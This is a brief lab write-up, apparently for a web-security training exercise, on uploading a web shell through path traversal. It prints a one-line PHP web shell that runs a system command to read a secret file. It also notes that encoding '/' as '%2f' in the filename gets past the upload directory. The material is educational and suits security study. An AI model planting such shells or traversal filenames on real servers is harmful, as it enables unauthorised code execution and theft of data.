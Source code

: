 # Web shell upload via path traversal

## File Content
```php
<?php
system("cat /home/carlos/secret");
?>
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150630846-e047c5f1-f0b1-46cd-95e1-839280c2c5a7.png)

![image](https://user-images.githubusercontent.com/60841283/150630862-762d35d2-7f0f-4512-b875-749abedbfdb2.png)

![image](https://user-images.githubusercontent.com/60841283/150630900-3be980ed-666d-464d-95c9-212b3ae7a529.png)

Encode "/" --> "%2f"

![image](https://user-images.githubusercontent.com/60841283/150630938-e8607ea4-33e7-42e5-9478-b0e03bb868cb.png)

![image](https://user-images.githubusercontent.com/60841283/150630963-59924a8d-793d-4658-b562-e688812766e8.png)
